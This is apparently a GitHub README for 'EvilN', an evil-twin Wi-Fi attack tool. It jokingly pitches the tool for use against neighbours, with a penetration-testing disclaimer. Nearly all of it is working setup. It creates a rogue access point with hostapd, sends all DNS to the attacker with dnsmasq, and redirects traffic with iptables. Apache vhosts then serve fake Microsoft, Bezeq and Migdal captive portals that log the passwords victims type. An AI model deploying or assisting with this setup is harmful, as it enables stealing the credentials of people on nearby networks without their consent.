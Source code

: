 # EvilN -> Evil-Neighbor

if you love your neighbors, this tool is for you :)

Just kiding (not really... ), 

I wrote it just for helping you with your Penetration testing/Red Team assesment

!ANY USE OF THIS TOOL IS AT YOUR OWN RISK!

I recommend working with kali linux, preferably from VMware, and to get a better result, 
use dual band (--dual), but for this you will need two wifi adapters - two alfa.

## If you like things done authomatically, Use:

### Dual Band (2.4GHz and 5GHz):
- iface1 assosiated to -channel2.4 (2.4GHz)
- iface2 assosiated to -channel5 (5GHz)
```python
python3 EvilN.py dual --iface1 wlan1 --iface2 wlan0 --channel2.4 1 --channel5 36 --ssid "MyLan" --network 10.0.0.0/24 --CaptivePortal microsoft | bezeq | default | migdal
```

### 2.4GHz Single:
```python
python3 EvilN.py single --band 2.4 --iface wlan0 --ssid "MyLan" --channel 1 --network 10.0.0.0/24 --CaptivePortal microsoft | bezeq | default | migdal
```

### 5GHz Single:
```python
python3 EvilN.py single --band 5 --iface wlan1 --ssid "MyLan" --channel 36 --network 10.0.0.0/24 --CaptivePortal microsoft | bezeq | default | migdal
```

! Change in HTML files the name of Network !
```
Line 55 : <h1 id="title">******** Wi-Fi</h1> (Default/index.html)
Line 55 : <h1 id="title">******** Wi-Fi</h1> (Default/Dual/index.html)

Line 157 <input class="input" type="text" value="******" readonly> (Bezeq/index.html)
Line 157 <input class="input" type="text" value="******" readonly> (Bezeq/Dual/index.html)
```
## If you like things done manually, Use:

### Update Kali
```bash
sudo wget -q0 https://archive.kali.org/atchive-key.asc | tee /etc/apt/trusted.gpg.d/kali.asc
sudo apt update
sudo apt install realtek-rtl88xxau-dkms

```

### 1) Installation all pachages:
```bash
sudo apt update
sudo apt install -y apache2 php libapache2-mod-php
sudo apt install -y hostapd dnsmasq lighttpd php
```

### 2) Setting up wlan0 Interface:
```bash
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
sudo ip addr add 192.168.50.1/24 dev wlan0
sudo ip link set wlan0 up
```

### 3) configure dnsmasq.conf file:
```bash
interface=wlan0
bind-interfaces
no-resolv
log-queries

dhcp-range=192.168.50.10,192.168.50.100,12h
dhcp-option=3,192.168.50.1
dhcp-option=6,192.168.50.1

address=/#/192.168.50.1

address=/captive.apple.com/192.168.50.1
address=/www.msftconnecttest.com/192.168.50.1
address=/connectivitycheck.gstatic.com/192.168.50.1
```

### 4.A) configure hostapd.conf file (2.4 GHz):
```bash
interface=wlan0
driver=nl80211
ssid=TestNetworkName 
hw_mode=g
channel=6
auth_algs=1
wmm_enabled=0
```

### 4.B) configure hostapd.conf file (5 GHz):
```bash
interface=wlan0
driver=nl80211
ssid=TestNetworkName 
hw_mode=a
channel=36
auth_algs=1
wmm_enabled=1
```

### 5) configure a2enmod:
```bash
sudo systemctl start apache2
sudo a2enmod rewrite
sudo a2enmod headers
sudo systemctl restart apache2
```

### 5) Create captive Foles:
```bash
sudo mkdir -p /var/www/captive
```

### 6.A) Create Web Captive Portal (Default):
```bash
sudo mv index.html /var/www/captive/
sudo mv save.php /var/www/captive/
```

### 6.B) Create Web Captive Portal (Microsoft):
```bash
sudo mv Microsoft/index.html /var/www/captive/
sudo mv Microsoft/save.php /var/www/captive/
sudo mv Microsoft/password.php /var/www/captive/
sudo mv Microsoft/save2.php /var/www/captive/
sudo mv Microsoft/microsoft.svg /var/www/captive/
```

### 7) Create log file:
```bash
sudo touch /var/log/ca.log
```

### 8) Permission for file:
```bash
sudo chown www-data:www-data /var/log/ca.log
sudo chmod 640 /var/log/ca.log
```

### 9.A) Create Vhost (default):
```bash
nano /etc/apache2/sites-available/captive.conf
```

```bash
<VirtualHost *:80>
    ServerName captive.portal
    ServerAlias *
    DocumentRoot /var/www/captive
    <Directory /var/www/captive>
        AllowOverride All
        Require all granted
    </Directory>

    # iOS/macOS
    Alias /hotspot-detect.html /var/www/captive/index.html
    # Android
    Alias /generate_204 /var/www/captive/index.html
    # Windows
    Alias /connecttest.txt /var/www/captive/index.html

    RewriteEngine On
    RewriteCond %{REQUEST_URI} !^/save\.php$
    RewriteRule ^.*$ /index.html [L]

    Header always set Cache-Control "no-store, no-cache, must-revalidate, max-age=0"
    Header always set Pragma "no-cache"
    Header always set Expires "0"
</VirtualHost>
```

### 9.B) Create Vhost (Microsoft):
```bash
nano /etc/apache2/sites-available/captive.conf
```

```bash
<VirtualHost *:80>
    ServerName captive.portal
    ServerAlias *
    DocumentRoot /var/www/captive

    <Directory /var/www/captive>
        AllowOverride None
        Require all granted
        Options -MultiViews
    </Directory>

    Alias /hotspot-detect.html /var/www/captive/index.html
    Alias /generate_204       /var/www/captive/index.html
    Alias /connecttest.txt    /var/www/captive/index.html

    RewriteEngine On
    RewriteCond %{REQUEST_URI} !^/(hotspot-detect\.html|generate_204|connecttest\.txt)$
    RewriteRule ^/?(save\.php|password\.php|save2\.php|microsoft\.svg)$ - [L]

    RewriteCond %{REQUEST_FILENAME} -f [OR]
    RewriteCond %{REQUEST_FILENAME} -d
    RewriteRule ^ - [L]
    RewriteRule ^ /index.html [L]
    Header always set Cache-Control "no-store, no-cache, must-revalidate, max-age=0"
    Header always set Pragma "no-cache"
    Header always set Expires "0"
    Header always set X-VHost "captive-portal"
    AddType image/svg+xml .svg .svgz
</VirtualHost>
```

### 10) Start a2ensite:
```bash
sudo a2ensite captive.conf
sudo a2dissite 000-default.conf
sudo systemctl reload apache2
```


### 11) Create IpTables:
```bash
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-ports 80
sudo iptables -t nat -A PREROUTING -i wlan0 -p udp --dport 53 -j REDIRECT --to-ports 53
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 53 -j REDIRECT --to-ports 53
```

### 12) start:
```bash
sudo dnsmasq -C dnsmasq.conf
sudo hostapd hostapd.conf
```

### Kill the process:
```bash
sudo pkill dnsmasq
sudo iptables -t nat -D PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-ports 80
sudo iptables -t nat -D PREROUTING -i wlan0 -p udp --dport 53 -j REDIRECT --to-ports 53
sudo iptables -t nat -D PREROUTING -i wlan0 -p tcp --dport 53 -j REDIRECT --to-ports 53
sudo rm dnsmasq.conf
sudo rm hostapd.conf
sudo rm /etc/apache2/sites-available/captive.conf
sudo rm /var/log/ca.log
sudo rm -r /var/www/captive/
sudo systemctl stop apache2
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
sudo ip link set wlan0 up
systemctl start NetworkManager
```
